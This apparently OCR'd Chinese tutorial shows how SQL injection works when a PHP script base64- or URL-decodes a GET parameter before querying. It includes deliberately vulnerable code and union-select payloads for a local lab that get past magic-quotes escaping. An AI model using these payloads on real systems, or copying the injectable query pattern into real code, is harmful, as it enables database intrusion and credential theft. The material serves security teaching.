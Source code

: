 有些为了业务需要他会把传入一些编码后的参数再解码带入数据库查询，我们常见的有 **base64 编码**，也有的程序会内置 url 解码，这类写法通常见于框架。

**1.base64**

```
<?php
include("../sql-connections/sql-connect.php");
$id=base64\_decode($\_GET\['id'\]);
$sql="SELECT \* FROM users WHERE id='$id' LIMIT 0,1";
$result=mysql\_query($sql);
$row = mysql\_fetch\_array($result);
if ($row) {
    echo "id:".$row\['id'\]."<br>";
    echo "用户名:".$row\['username'\]."<br>";
    echo "密码:".$row\['password'\]."<br>";
}else{
    print\_r(mysql\_error());
}
echo '<hr>';
echo "查询的语句是：$sql";
?>

```

传入的值 base64 解密后带入查询，这种注入魔术引号是没办法拦截的，当我们遇到网站为 base64 编码的参数时可以留意下。

> http://127.0.0.1/sqli/Less-1/base64.php  
>     ?id=JyB1bmlvbiBzZWxlY3QgMSx1c2VyKCksMyAtLSAr  

```
2.urldecode<?php
include("../sql-connections/sql-connect.php");
$id=urldecode($\_GET\['id'\]);
$sql="SELECT \* FROM users WHERE id='$id' LIMIT 0,1";
$result=mysql\_query($sql);
$row = mysql\_fetch\_array($result);
if ($row) {
    echo "id:".$row\['id'\]."<br>";
    echo "用户名:".$row\['username'\]."<br>";
    echo "密码:".$row\['password'\]."<br>";
}else{
    print\_r(mysql\_error());
}
echo '<hr>';
echo "查询的语句是：$sql";
?>

```

因为接受的参数只会被 url 解码一次，传入的值不是魔术引号认识的值所以可以  

绕过

> ```
> http://127.0.0.1/sqli/Less-1/base64.php
>     ?id=%2527union%20select%201,user(),3--%20+
> 
> 
> ```
